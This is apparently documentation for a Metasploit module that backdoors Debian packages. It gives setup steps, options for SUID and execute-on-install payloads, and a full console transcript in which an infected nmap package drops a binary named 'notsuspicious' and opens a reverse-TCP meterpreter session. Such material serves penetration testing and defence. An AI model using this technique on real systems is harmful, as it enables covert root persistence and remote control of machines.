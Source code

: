 ## Vulnerable Application

This module exploits the widespread lack of per-package signing
in the Debian package ecosystem. Most `.deb` files are vulnerable
to manipulation if read-write access is available. By injecting a
payload into the package we can gain execution as the root user.
Custom dependencies can also be specified, allowing us to install
additional software. This module can be run with a handler, but it
is not enabled by default.

The exploit module was authored by:

- Andrew Vanderbilt @ Vander Security (Original PoC)
- Nick Cottrell <Rad10Logic> (PoC Additions)

## Verification Steps

 1. Start msfconsole
 2. Get a root session
 3. `use exploit/linux/fileformat/debian_package_hijacker`
 4. `set SESSION <id>`
 5. `set PACKAGE <package_name>` # should be either path to local package or name of apt package
 6. `set DEPENDENCIES <extra_dependencies>`
 7. `set INSTALL_PACKAGE true`
 8. `set DisablePayloadHandler false`
 9. `set ExecuteOnInstall true`
10. `exploit -z`
11. Ensure you have a 2nd root session


## Options

The module provides several configurable options:

### PACKAGE

The absolute file path to the Debian package to hijack.

### INSTALL_PACKAGE

If set to true, the module will attempt to install the newly infected package,
reinstalling the package if necessary. Default is `false`.

### DEPENDENCIES

Package dependencies to inject into control file. Separate multiple
dependencies with a comma (`,`), eg., `depends1,depends2`.

### PAYLOAD_DESTINATION

Determines where the binary will be stored. This option is only available when
`TARGET` is set to `Linux dropper`.

### SUID_PAYLOAD

If set to true, the payload will have the SUID bit set so anyone running it
will be root. Default is `true`. This option is only available when `TARGET` is
set to `Linux dropper`.

### WritableDir

A directory where temporary files can be written, default is `/tmp/`.

### ExecuteOnInstall

If set to true, the payload will be executed during installation. Default is
`false`. This option is only available when `TARGET` is set to `Linux dropper`.

## Scenarios

### Ubuntu 21.04

```
msf6 > use exploit/linux/fileformat/debian_package_hijacker
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/debian_package_hijacker) > set session 6 
session => 6
msf6 exploit(linux/fileformat/debian_package_hijacker) > set verbose true 
verbose => true
msf6 exploit(linux/fileformat/debian_package_hijacker) > set package nmap
package => nmap
msf6 exploit(linux/fileformat/debian_package_hijacker) > set install_package true 
install_package => true
msf6 exploit(linux/fileformat/debian_package_hijacker) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/debian_package_hijacker) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 exploit(linux/fileformat/debian_package_hijacker) > set AllowNoCleanup true 
AllowNoCleanup => true
msf6 exploit(linux/fileformat/debian_package_hijacker) > run

[+] Session confirms it's Debian.
[*] Could not find deb file in PACKAGE path
[+] Found PACKAGE as apt package
[*] Working directory: /tmp/.icfpw36j
[*] postinst_file: /tmp/.icfpw36j/extracted/DEBIAN/postinst.
[*] control_file: /tmp/.icfpw36j/extracted/DEBIAN/control.
[*] Creating directory /tmp/.icfpw36j
[*] /tmp/.icfpw36j created
[*] Could not find package on system, but found it in apt
[*] Package: nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb
[*] Adding /usr/local/bin/notsuspicious to package
[*] Creating directory /tmp/.icfpw36j/extracted/usr
[*] /tmp/.icfpw36j/extracted/usr created
[*] Creating directory /tmp/.icfpw36j/extracted/usr/local
[*] /tmp/.icfpw36j/extracted/usr/local created
[*] Creating directory /tmp/.icfpw36j/extracted/usr/local/bin
[*] /tmp/.icfpw36j/extracted/usr/local/bin created
[*] Generated payload file at usr/local/bin/notsuspicious
[*] Set new binary to proper permissions
[*] New binary digest [b20b40c1ea21325f5dd4431d2a8a446d]
[*] Added new hash to sums
[*] Installing infected package
[*] Running command: apt install -y ./nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb
[*] 
WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Reading package lists...
Building dependency tree...
Reading state information...
The following additional packages will be installed:
  liblinear4 nmap-common
Suggested packages:
  liblinear-tools liblinear-dev ncat ndiff zenmap
The following NEW packages will be installed:
  liblinear4 nmap nmap-common
0 upgraded, 3 newly installed, 0 to remove and 0 not upgraded.
Need to get 4060 kB/5960 kB of archives.
After this operation, 25.9 MB of additional disk space will be used.
Get:1 /home/radmin/nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb nmap amd64 7.91+dfsg1+really7.80+dfsg1-2 [1899 kB]
Get:2 http://deb.debian.org/debian bullseye/main amd64 liblinear4 amd64 2.3.0+dfsg-5 [43.6 kB]
Get:3 http://deb.debian.org/debian bullseye/main amd64 nmap-common all 7.91+dfsg1+really7.80+dfsg1-2 [4017 kB]
debconf: unable to initialize frontend: Dialog
debconf: (TERM is not set, so the dialog frontend is not usable.)
debconf: falling back to frontend: Readline
debconf: unable to initialize frontend: Readline
debconf: (This frontend requires a controlling tty.)
debconf: falling back to frontend: Teletype
dpkg-preconfigure: unable to re-open stdin: 
Fetched 4060 kB in 1s (6302 kB/s)
Selecting previously unselected package liblinear4:amd64.
(Reading database ... 261904 files and directories currently installed.)
Preparing to unpack .../liblinear4_2.3.0+dfsg-5_amd64.deb ...
Unpacking liblinear4:amd64 (2.3.0+dfsg-5) ...
Selecting previously unselected package nmap-common.
Preparing to unpack .../nmap-common_7.91+dfsg1+really7.80+dfsg1-2_all.deb ...
Unpacking nmap-common (7.91+dfsg1+really7.80+dfsg1-2) ...
Selecting previously unselected package nmap.
Preparing to unpack .../nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb ...
Unpacking nmap (7.91+dfsg1+really7.80+dfsg1-2) ...
Setting up liblinear4:amd64 (2.3.0+dfsg-5) ...
Setting up nmap-common (7.91+dfsg1+really7.80+dfsg1-2) ...
Setting up nmap (7.91+dfsg1+really7.80+dfsg1-2) ...
Processing triggers for man-db (2.9.4-2) ...
[*] Package installed. Marking downloaded package for deletion.
msf6 exploit(linux/fileformat/debian_package_hijacker) > use payload/linux/x64/meterpreter/reverse_tcp 
msf6 payload(linux/x64/meterpreter/reverse_tcp) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 payload(linux/x64/meterpreter/reverse_tcp) > exploit -z
[*] Payload Handler Started as Job 3
msf6 payload(linux/x64/meterpreter/reverse_tcp) > 
[*] Started reverse TCP handler on 192.168.56.1:4444 
sessions -i 6 -c /usr/local/bin/notsuspicious
[*] Running '/usr/local/bin/notsuspicious' on meterpreter session 6 (192.168.56.126)
[*] Sending stage (3045348 bytes) to 192.168.56.126
[*] Meterpreter session 7 opened (192.168.56.1:4444 -> 192.168.56.126:37788) at 2023-07-17 16:40:37 -0400
[*] This is CredCollect, I have the conn!
```
